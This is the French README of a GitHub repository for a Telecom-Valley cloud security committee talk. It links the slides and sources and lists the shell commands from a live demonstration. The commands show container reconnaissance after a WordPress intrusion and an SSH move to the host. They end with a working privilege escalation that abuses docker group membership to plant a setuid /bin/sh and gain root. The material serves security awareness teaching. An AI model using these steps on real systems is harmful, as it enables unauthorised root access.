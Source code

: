 # fr-commission-securite-cloud
FR - Supports de présentation en français pour la commission sécurité &amp; cloud, Telecom-Valley

## Diaporama de présentation

Document unique : [Commission sécurité cloud.pdf](https://github.com/ledroide/fr-commission-securite-cloud/Commission%20s%C3%A9curit%C3%A9%20cloud.pdf)

## Sources et documentation

Les études et documents cités sont sur [presentations/sources](https://drive.google.com/open?id=1P9nut3-c6ZVQW_wc_Klq0owCwjO4A8zG)

## Démonstrations

Revoir d'abord la démonstration d'intrusion par plugin de reverse-shell dans Wordpress par Laurent Gomez a la conference [Le Cloud, nouveau fort de Vauban, SophiaConf 2015](https://youtu.be/r-ZUCnhM3eE).

Puis les commandes exécutées :

```bash
~ $ docker exec mysql-wp ps auxwww 
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql        1  0.0  1.2 1270632 201020 ?      Ssl  09:46   0:01 mysqld
root        63  0.0  0.0  17504  2048 ?        Rs   10:36   0:00 ps auxwww

root@eb78198a1832:/# ls /sys/devices/

root@5b93404b19fd:/var/www/html# cat /proc/net/arp 
IP address       HW type     Flags       HW address            Mask     Device
10.32.0.2        0x1         0x2         02:42:0a:20:00:02     *        eth0
10.32.0.1        0x1         0x2         02:42:d5:c5:5d:39     *        eth0
root@5b93404b19fd:/var/www/html# hostname -I
10.32.0.4

root@eb78198a1832:/# cat /proc/net/fib_trie
           +-- 10.32.0.0/29 2 0 2
Hosts/Net: 6

root@5b93404b19fd:/var/www/html# egrep ^10 /etc/hosts
10.32.0.2       mysql fabe9f6fd32c mysql-wp
10.32.0.4       5b93404b19fd

root@eb78198a1832:/# ssh -l ecisse 10.32.0.1
ecisse@10.32.0.1's password: 
Welcome to Ubuntu 17.10 (GNU/Linux 4.13.0-21-generic x86_64)

ecisse@D20854-Gailuron:~$ id
uid=1002(ecisse) gid=1002(ecisse) groups=1002(ecisse),999(docker)
ecisse@D20854-Gailuron:~$ sudo -l
[sudo] password for ecisse: 
Sorry, user ecisse may not run sudo on D20854-Gailuron.
ecisse@D20854-Gailuron:~$ docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
eb78198a1832        rastasheep/ubuntu-sshd   "bash"              15 minutes ago      Up 15 minutes       22/tcp              confident_panini

~ $ mkdir -p Downloads/install/gitlab

~ $ docker run -ti --rm -v $HOME/Downloads/install/gitlab:/toto debian:wheezy bash
root@dada2cc8a000:/#
root@dada2cc8a000:/# cp /bin/sh /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# chmod a+s /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# exit
jujube@D20854-Gailuron:~$ ./Downloads/install/gitlab/gitlab-ci.install.bin 
# id -un
root
# 
```

## Liens complémentaires

* [Annonce de la conférence](http://www.telecom-valley.fr/6-fevrier-2018-commission-securite-cloud/)
